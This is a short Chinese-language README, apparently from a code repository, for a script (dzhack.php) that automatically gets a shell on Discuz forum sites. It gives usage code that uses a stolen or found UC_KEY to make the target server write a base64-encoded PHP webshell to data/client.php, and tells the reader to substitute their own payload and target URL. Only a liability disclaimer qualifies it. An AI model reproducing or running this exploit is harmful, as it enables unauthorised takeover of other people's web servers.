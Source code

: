 #### Discuz 全自动 GetShell

本方法比写 config_ucenter.php 更加稳定，而且不易出错

#### 用法

打开 `dzhack.php`, 找到 

```
$webshell = '<?php phpinfo(); ?>';
 
list ($status, $data) = $dz->hack (
   'http://ubuntu64/dz/',
   'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
   'file_put_contents("data/client.php", base64_decode ("' . base64_encode ($webshell) . '"));'
   );
```

先把第一行 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改 `hack` 函数的参数，第一个为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

##### Legal Disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

